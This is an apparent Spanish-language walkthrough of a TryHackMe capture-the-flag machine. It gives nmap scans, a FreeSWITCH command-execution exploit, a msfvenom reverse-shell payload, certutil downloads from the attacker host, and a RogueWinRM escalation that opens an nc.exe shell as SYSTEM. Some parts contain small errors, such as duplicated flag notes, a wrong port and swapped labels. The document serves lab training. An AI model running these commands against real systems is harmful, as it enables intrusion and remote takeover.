



# Flatine

Es una maquina que explota la vulnerabilidad de `FreeSWITCH` que permite la ejecución de comandos, luego se tiene que hacer uso de tu ingenio para subir un archivo malicioso o obtener una consola. Para escalar privilegios abusaremos del `SeImpersonatePrivilege` para ejecutar obtener una consola con privilegios


* Link [Flatline](https://tryhackme.com/room/flatline)
* Created by  [Nekrotic](https://tryhackme.com/p/Nekrotic)

## Metodología

* Enumeración
  * Escaneo de puertos
  * Enumeración de servicios
* Explotación
  * FreeSWITCH 1.10.1 - Command Execution
  * Intrusión
* Escalar Privilegios
  * Usuario win-eom4pk0578n\nekrotic
  * SeImpersonatePrivilege

## Walkthrough

### Enumeración

#### Escaneo de puertos

Iniciamos con nuestra herramienta preferida a escanear los puerto de la maquina victima.

```java
❯ nmap -p- --open --min-rate 1000 -vvv [IP-VICTIM] -Pn -n  -oG allportsScan
PORT     STATE SERVICE       REASON
3389/tcp open  ms-wbt-server syn-ack
8021/tcp open  ftp-proxy     syn-ack
```

`-p-`: Esta opción indica a Nmap que escanee todos los puertos en lugar de un rango específico. El guion ("-") significa "todos los puertos". Esto permite escanear todos los puertos desde el puerto 1 hasta el 65535.

`--open`: Esta opción le dice a Nmap que solo muestre los puertos que están abiertos. Los puertos abiertos son aquellos en los que un servicio está escuchando y aceptando conexiones.

`--min-rate 1000`: Esto establece la velocidad mínima de escaneo en 1000 paquetes por segundo. Cuanto mayor sea la velocidad de escaneo, más rápido se completará el escaneo, pero ten en cuenta que un escaneo más rápido puede ser más intrusivo y podría llamar la atención no deseada.

`[IP-VICTIM]`: Esta es la dirección IP del objetivo que se va a escanear. Debes reemplazarla por la dirección IP que deseas escanear.

`-Pn`: Esta opción indica a Nmap que no realice el descubrimiento de hosts (Ping) antes de escanear los puertos. Puedes usar esto si sabes que el host objetivo no responde a los paquetes de Ping.

`-n`: Esta opción le dice a Nmap que no realice la resolución de nombres DNS. Puedes usarlo si no deseas que Nmap realice búsquedas DNS inversas durante el escaneo.

`-oG allportsScan`: Esta opción le indica a Nmap que genere la salida en formato "greppable" (Grep) y la guarde en un archivo llamado "allportsScan". Este archivo contendrá información detallada sobre los puertos abiertos y otros detalles del escaneo. Para entender un poco mas de los parametros que lanzamos con `nmap` podemos leer un poco lo siguiente:

`-p-`: Esta opción indica a Nmap que escanee todos los puertos en lugar de un rango específico. El guion ("-") significa "todos los puertos". Esto permite escanear todos los puertos desde el puerto 1 hasta el 65535.

`--open`: Esta opción le dice a Nmap que solo muestre los puertos que están abiertos. Los puertos abiertos son aquellos en los que un servicio está escuchando y aceptando conexiones.

`--min-rate 1000`: Esto establece la velocidad mínima de escaneo en 1000 paquetes por segundo. Cuanto mayor sea la velocidad de escaneo, más rápido se completará el escaneo, pero ten en cuenta que un escaneo más rápido puede ser más intrusivo y podría llamar la atención no deseada.

`[IP-VICTIM]`: Esta es la dirección IP del objetivo que se va a escanear. Debes reemplazarla por la dirección IP que deseas escanear.

`-Pn`: Esta opción indica a Nmap que no realice el descubrimiento de hosts (Ping) antes de escanear los puertos. Puedes usar esto si sabes que el host objetivo no responde a los paquetes de Ping.

`-n`: Esta opción le dice a Nmap que no realice la resolución de nombres DNS. Puedes usarlo si no deseas que Nmap realice búsquedas DNS inversas durante el escaneo.

`-oG allportsScan`: Esta opción le indica a Nmap que genere la salida en formato "greppable" (Grep) y la guarde en un archivo llamado "allportsScan". Este archivo contendrá información detallada sobre los puertos abiertos y otros detalles del escaneo.

Teniendo los puertos abiertos, vamos a enumerar los servicios y versiones que se ejecutan en los puertos abiertos

```java
❯ nmap -p3389,8021 -sC -sV -vvv -Pn -n [IP-VICTIM] -oN servicesScan

PORT     STATE SERVICE          REASON  VERSION
3389/tcp open  ms-wbt-server    syn-ack Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WIN-EOM4PK0578N
|   NetBIOS_Domain_Name: WIN-EOM4PK0578N
|   NetBIOS_Computer_Name: WIN-EOM4PK0578N
|   DNS_Domain_Name: WIN-EOM4PK0578N
|   DNS_Computer_Name: WIN-EOM4PK0578N
|   Product_Version: 10.0.17763
|_  System_Time: 2023-11-08T17:20:48+00:00
| ssl-cert: Subject: commonName=WIN-EOM4PK0578N
| Issuer: commonName=WIN-EOM4PK0578N
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-11-07T17:14:10
| Not valid after:  2024-05-08T17:14:10
| MD5:   129e:347f:69b3:cbb6:d96a:0d8f:96a3:2e52
| SHA-1: eac2:8e47:ade7:081a:3b37:6ed4:23fc:fda1:1d31:4ac2
| -----BEGIN CERTIFICATE-----
| MIIC4jCCAcqgAwIBAgIQSJRzgeegf4lKeYaz57SfvDANBgkqhkiG9w0BAQsFADAa
| MRgwFgYDVQQDEw9XSU4tRU9NNFBLMDU3OE4wHhcNMjMxMTA3MTcxNDEwWhcNMjQw
| NTA4MTcxNDEwWjAaMRgwFgYDVQQDEw9XSU4tRU9NNFBLMDU3OE4wggEiMA0GCSqG
| SIb3DQEBAQUAA4IBDwAwggEKAoIBAQDHNDuK+vaUYLQ/naV136YMFE8Z4gqfWJyJ
| hpyeO5hwunIH5oJK+ua1w1CBygf9C88KBSdJU9Nv5gpq5jTsh7f/1th2N3WJbqk0
| HMOHju52O1wm+9ezQTm+6LFtnoMlge2Z1Yo9TPFveq6CMukRAXpprqsZQT3JcyV8
| bMn3ab4d3fCm68behfZzBtkGjxvHHJKUFHN9rn9IUfCEaNLb5C6ISucZbnKumcJK
| wKZwkR9/t3++foJIvGdrkCB4BrX9KukkR+sgn7j8UIeu6S0FwqtLTm5L7C4R2MRF
| 2HJHBEFglZ6opiaYNmdcJyexigJH+LScdqsEhK+ndo15lCV+ogBRAgMBAAGjJDAi
| MBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsF
| AAOCAQEAPfd/fm2nkGHdoM8+1+Or7AbgcA4dBqmZeJR7OzElclZ8lG3p6nlh55N1
| 4Bru/n5T28yXZAFzIkoFU/D3LFfvKvxcTd9UCXJwyDwNXdwYV4mHlBkcs+t0EGgV
| WyZ1hlMLq2skc5Y1R6Sb6tUnCtG6ZmmWrzaHYUuYzdd725345z+8HOBysF2echCe
| mTAwigqEaL5ViEWrrgpC0XduOQQ38qMoL+5OVNm2oM6Xz8o4tYGdHuunr8FO23Af
| Cs36nZzkgB+tEzQ0navpBmdPoImGHG51NCowB5r33HOw3VAK5XskKcuIqG6ckj6X
| ynQvJjvAHWUQKAM/gPoRXxA4a4YuNQ==
|_-----END CERTIFICATE-----
|_ssl-date: 2023-11-08T17:20:53+00:00; 0s from scanner time.
8021/tcp open  freeswitch-event syn-ack FreeSWITCH mod_event_socket
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

`-p3389,8021`: Esta opción especifica los puertos que se van a escanear. En este caso, se están escaneando los puertos 33389 y 8021. Los números de puerto están separados por comas y no se utiliza el rango de puertos.

`-sV`: Esta opción realiza la detección de versiones de servicios. Nmap intentará determinar qué servicios se están ejecutando en los puertos especificados y mostrará información sobre las versiones de esos servicios.

`-sC`: Activa los scripts de secuencia de comandos (scripts de automatización) de Nmap. Esto permite que Nmap ejecute scripts de detección y enumeración de servicios en los puertos especificados.

`-Pn`: Esta opción indica a Nmap que no realice el descubrimiento de hosts (Ping) antes de escanear los puertos. Si no se puede contactar con el host a través de Ping, Nmap aún intentará escanear los puertos especificados.

`-vvv`: Esto establece el nivel de verbosidad del escaneo en "muy alto". Esto significa que Nmap proporcionará una salida detallada que incluye información adicional sobre el progreso del escaneo.

`[IP-VICTIM]`: Debes reemplazar \[IP-VICTIM] con la dirección IP del objetivo que deseas escanear. Este es el host en el que se realizará el escaneo.

`-oN servicesScan`: Esta opción le dice a Nmap que genere la salida en formato "greppable" (Grep) y la guarde en un archivo llamado "servicesScan". Este archivo contendrá información detallada sobre los servicios y versiones detectadas en los puertos especificados.

### Explotación

#### FreeSWITCH 1.10.1 - Command Execution

El puerto `3389` encontramos un servicio el cual tiene una vulnerabilidad de (FreeSWITCH)\[https://www.exploit-db.com/exploits/47799]

Ejecutamos el exploit indicando el comando `whoami`

```java
❯ python3 exploitFreeSwitch.py [IP-VICTIM] 'whoami'
Authenticated
Content-Type: api/response
Content-Length: 25

win-eom4pk0578n\nekrotic
```

Tenemos respuesta de la maquina victima al comando `whoami` y tenemos el usuario `win-eom4pk0578n\nekrotic`

#### Intrusión

Para obnener una consola de la maquina victima, vamos a crearnos un archivo malicioso, tu la puedes hacer con `nc.exe` el objetivo es el mismo.

La idea es subir este fichero malicioso a la maquina victima y luego con el exploit que nos permite ejecutar comandos, ejecutar el archivo malicioso y enviandonos una consola

* Primero, Creamos nuestro `.exe` malicioso

```java
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe > calc.exe
```

* Segundo, iniciamos un servidor en python

```java
❯ python3 -m http.server 80
```

* Tercero, con `certutil` podemos descargar el archivo a la maquina victima

```java
❯ python3 exploitFreeSwitch.py [IP-VICTIM] 'certutil -urlcache -f http://[IP-ATTACKER]/calc.exe calc.exe'
Authenticated
Content-Type: api/response
Content-Length: 71
```

* Cuarto, ponemos a la escucha `ncat` para recibir la consola

```java
❯ rlwrap ncat -lvnp 443
```

* Quinto, ejecutemos el fichero malicioso

```java
❯ python3 exploitFreeSwitch.py [IP-VICTIM] '.\calc.exe'
```

Si lo hiciste bien, debes de tener una consola de la maquina victima

### Escalada de privilegios

8

Enumerando el sistema encotramos:

```java
C:\Program Files\FreeSWITCH>whoami /priv
```

El usuario tiene habilitado el SeImpersonate



#### SeImpersonatePrivilege

Haciendo uso de este privilegio se puede llegar a ejecutar comandos

* Usaremos [RogueWinRM](https://github.com/antonioCoco/RogueWinRM/releases/tag/1.1)
* Descargamos los archivos en la maquina victima el `RogueWinRM` y el `nc.exe`
* RogueWinRM:

```java
C:\Users\Nekrotic\Documents>certutil -urlcache -f 'http://[IP-ATTACKER]/nc.exe nc.exe'
```

* nc.exe:

```java
C:\Program Files\FreeSWITCH>certutil -urlcache -f http://[IP-ATTACKER]/RogueWinRM.exe RogueWinRM.exe
```

Ahora ejecutamos

```java
RogueWinRM.exe -p "nc.exe" -a "-e cmd.exe [IP-ATTACKER] 444"
```

Demos de asegurarnos que nos ponga un `[+] CreateProcessWithTokenW OK`

```java
C:\Program Files\FreeSWITCH>.\RogueWinRM.exe -p "nc.exe" -a "-e cmd.exe [IP-ATTACKER] 444"
.\RogueWinRM.exe -p "nc.exe" -a "-e cmd.exe [IP-ATTACKER] 444"
Listening for connection on port 5985 .... 
Received http negotiate request
Sending the 401 http response with ntlm type 2 challenge
Received http packet with ntlm type3 response
Using ntlm type3 response in AcceptSecurityContext()
BITS triggered!
[+] authresult 
NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
C:\Program Files\FreeSWITCH>

```

Antes debemos de poner a la escucha `ncat` en nuestra maquina atacante y tendremos nuestra consola.



¡VAMOS!

Happy hacking :)
